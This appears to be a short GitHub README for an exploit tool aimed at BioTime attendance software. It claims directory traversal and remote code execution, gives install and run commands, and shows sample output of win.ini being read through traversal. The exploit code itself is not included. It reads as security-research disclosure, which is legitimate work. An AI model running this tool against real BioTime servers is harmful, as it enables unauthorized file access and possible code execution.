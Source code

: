 # Biotime Directory Traversal, Remote Code Execution
The exploit covers several vulnerabilities in BioTime which lead to Remote Code Execution or atleast directory traversal. - @w3bd3vil

For more details read the blog post at
> https://krashconsulting.com/fury-of-fingers-biotime-rce/

Usage
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install bs4 requests pycryptodome
python3 biotime_enum.py
```
 
Sample Output
```
└ $ python3 biotime_enum.py http://192.168.0.12:81
Found BioTime: 8.0.5 (Build:20211030.13012)
Dir Traversal Attempt
Output of windows/win.ini file:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
CMCDLLNAME32=mapi32.dll
CMC=1
MAPIX=1
MAPIXVER=1.0.0.1
OLEMessaging=1
[...]
```
